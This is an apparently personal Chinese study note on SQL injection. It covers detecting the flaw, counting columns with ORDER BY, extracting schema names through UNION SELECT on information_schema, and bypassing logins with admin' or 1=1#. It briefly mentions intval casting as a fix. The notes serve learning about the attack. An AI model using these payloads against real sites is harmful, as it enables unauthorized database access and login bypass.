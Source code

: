 ```yaml
---

title: 学习笔记3--
date: 2020-09-14 17:43:35
categories: 笔记
description: 首先检测漏洞- 输入id=1，和id=1'观察区别- 通过 ’ 逃逸出去，将后面内容逃逸出，成为执行语句- 注释符   -- ，/**/，//，#。注释符之后的执行语句被视为注释，不会执行

---
```

# 学习笔记3

## 首先检测漏洞

- 输入id=1，和id=1'观察区别


```
/?id=1，/?id=1‘
```

```php+HTML
/?id=1’or1=1--+
```

- 通过 ’ 逃逸出去，将后面内容逃逸出，成为执行语句

- 注释符   -- ，/**/，//，#。注释符之后的执行语句被视为注释，不会执行


## 查找字段

```
/?id=1' order by 12--+
```

- ORDER BY 关键字用于对结果集按照一个列或者多个列进行排序。

- ORDER BY 关键字默认按照升序对记录进行排序。如果需要按照降序对记录进行排序，可以使用 DESC 关键字。

```
order by A,B        这个时候都是默认按升序排列
order by A desc,B   这个时候 A 降序，B 升序排列
order by A ,B desc  这个时候 A 升序，B 降序排列
```

## 联合查询

- union select，联合查询


```
/?id=1' union select 1,2,3,4 --+
```

- 如果查询的不存在，下一个就会顶替上来，可以通过这个找出显著字段，控制它


```
/?id=-1' union select 1,2,3,4 --+
```

## 查找目标

- mysql5.7后存在总表 information_schema,通过总表进行查询


```
/?id=-1' union select 1,(select group_concat(schema_name) from information_schema. SCHEMATA),3,4 --+
```

- 通过可以显著字段，打印查询搜索的目标


## 漏洞原理

- $sql语句存在变量的拼接，可以被我们控制，变成其他内容


## 修复漏洞

- 通过强制转换为整数intval，过滤字符


## 免密码登录

- 就是通过sql注入的方式，用户名或id存在$sql变量拼接，（用户名无法通过强制转换为整数）


```
admin' or 1=1#
```


